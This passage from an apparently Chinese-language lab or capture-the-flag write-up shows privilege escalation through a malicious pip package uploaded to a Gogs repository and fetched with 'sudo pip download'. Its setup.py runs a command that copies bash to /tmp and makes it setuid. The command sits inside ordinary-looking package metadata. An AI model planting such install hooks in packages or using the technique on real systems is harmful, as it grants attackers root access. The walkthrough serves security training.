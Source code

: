 这里会从gogs中下载pip包，pip download也会执行setup.py

回到3000端口，使用john的凭据登录，我们可以看到这里有个存储库

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/bfd9df49-ebf2-b7f7-a181-15c732ca236f.png)

打法很简单，我们制作恶意pip包，然后上传到gogs存储库中，从而允许我们sudo pip下载恶意pip包从而提权

创建个文件夹，setup.py:

```python3
import os

os.system('cp /bin/bash /tmp/bash;chmod +s /tmp/bash')


from setuptools import setup, find_packages
import sys

setup(
    name="packer",
    version="0.1.0",
    author="",
    author_email="",
    description="Python Framework.",
    license="MIT",
    url="",
    packages=find_packages(),
    include_package_data=True,
    classifiers=[
        "Environment :: Web Environment",
        'Intended Audience :: Developers',
        'License :: OSI Approved :: MIT License',
        'Natural Language :: Chinese',
        'Operating System :: MacOS',
        'Operating System :: Microsoft',
        'Operating System :: POSIX',
        'Operating System :: Unix',
        'Topic :: NLP',
        'Topic :: Software Development :: Libraries :: Python Modules',
        'Programming Language :: Python :: 3.5',
        'Programming Language :: Python :: 3.6',
    ],
    zip_safe=True,
)
```

然后运行setup.py创建tar.gz包

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/bbe753b0-d06a-4a20-06a7-9a7a2120d23f.png)

然后在存储库中上传文件

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/4b599418-ebae-f2ac-eba4-5f6c83ff9e12.png)
